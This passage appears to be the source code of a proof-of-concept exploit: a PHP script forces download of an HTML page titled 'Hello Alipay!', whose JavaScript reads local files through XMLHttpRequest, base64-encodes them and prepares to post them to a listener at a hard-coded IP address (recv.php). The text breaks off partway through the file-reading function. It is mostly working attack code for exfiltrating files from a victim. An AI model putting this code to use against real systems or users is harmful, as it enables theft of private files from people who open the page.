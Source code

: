 exp.php

```
<?php

header("Content-Disposition: attachment; filename=exp2.html");

echo file_get_contents('exp2.html');
```

exp2.html:

```
<h2>Hello Alipay!</h2>

<script>
var server = "http://10.210.38.162:8888/recv.php";

function createXHR(){
    if(typeof XMLHttpRequest != 'undefined'){
        return new XMLHttpRequest();
    }else if(typeof ActiveXObject != 'undefined'){
        if(typeof arguments.callee.activeXString != 'string'){
            var versions = ['MSXML2.XMLHttp.6.0','MSXML2.XMLHttp.3.0','MSXML2.XMLHttp'];
            for(var i=0;i<versions.length;i++){
                try{
                    var xhr = new ActiveXObject(versions[i]);
                    arguments.callee.activeXString = versions[i];
                    return xhr;
                }catch(ex){}
            }
        }
        return new ActiveXObject(arguments.callee.activeXString);
    }else{
        throw new Error('No XHR Object available');
    }
}

// send POST Request
function sendPostRequest(url,data,headers,callback){

    var xhr  = createXHR();
    xhr.onload = function(){
        callback(xhr.responseText);
    }
    xhr.open('POST',url,false);
    if(typeof(headers)=='object'){
        for(var index in headers){
            if(typeof(headers[index])!='function'){
                xhr.setRequestHeader(index,headers[index]);
            }
        }
    }
    xhr.send(data);
}

// send GET Request to read file and return base64(file_content)
function sendGetRequestForB64File(url, filename, callback) {
    var xhr = createXHR();
    xhr.onload = function() {
    var reader = new FileReader();
        reader.onloadend = function() {
            var result = reader.result;
            var data = result.substr(result.search('base64,') + 'base64,'.length,result.length);
            data = data.replace(/\+/g,'-').replace(/\//g, '_');
```
